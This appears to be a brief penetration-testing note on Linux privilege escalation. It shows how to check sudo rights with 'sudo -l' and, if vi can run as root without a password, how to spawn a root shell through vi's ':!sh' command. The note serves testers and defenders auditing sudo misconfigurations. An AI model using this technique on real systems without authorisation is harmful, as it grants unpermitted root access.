 ```yaml
---
tags:
  - Penetration-Testing
  - Linux
  - PrivEsc
---
```

**If user can run VI Editor with sudo privileges, can use VI to launch shell**

## Steps
- **Enumerate user sudo privileges**
```bash
sudo -l
```
Looking for privileges to run VI as root without password

- **Run sudo vi**
- **Enter :!sh**
- **Press Enter for Shell**
